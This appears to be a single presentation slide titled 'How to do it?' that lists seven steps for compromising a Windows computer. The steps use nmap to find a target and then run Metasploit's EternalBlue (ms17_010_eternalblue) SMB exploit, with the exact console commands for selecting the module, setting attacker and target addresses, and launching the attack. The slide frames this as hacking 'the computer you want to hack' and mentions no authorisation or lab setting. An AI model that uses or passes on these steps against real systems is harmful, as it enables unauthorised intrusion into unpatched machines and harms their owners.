

# How to do it?
Step1. Open the terminal.
Step2. Use nmap to find the computer you want to hack.
Step3. Input “msfconsole” to open the application.
Step4. Input “use exploit/windows/smb/ms17_010_eternalblue” to choose the exploit you want to attack.
Step5. Input “set LHOST (your IP address)” to set the ip address of attacker.
Step6. Input “set RHOSTS (the ip of the system you want to hack)” to set the ip address of the computer you want to hack.
Step7. Input “exploit” to start attacking.